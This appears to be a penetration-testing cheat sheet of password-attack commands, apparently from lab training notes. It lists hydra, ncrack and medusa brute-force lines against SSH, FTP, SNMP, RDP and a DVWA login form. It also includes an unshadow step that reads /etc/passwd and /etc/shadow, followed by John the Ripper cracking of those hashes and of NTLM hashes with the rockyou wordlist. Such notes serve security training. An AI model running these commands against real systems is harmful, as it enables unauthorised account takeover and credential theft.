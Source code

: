 #### hydra

```hydra -P password-file.txt -v 10.11.1.219 snmp```

```hydra -l admin -P password-file.txt -v x.x.x.x ftp```

```hydra -l root -P password-file.txt x.x.x.x ssh```

```hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V```

-----


#### john

*unshadow /etc/passwd /etc/shadow > /tmp/unshadowed*

```john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/unshadowed```

```john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ntlm.hash```

-----


#### rdp

```ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35```

```hydra -t 1 -l username -p password1! rdp://192.168.190.130```

-----


#### medusa

```medusa -h 10.11.1.219 -u admin -P password-file.txt -M http -m DIR:/admin -T 10```

-----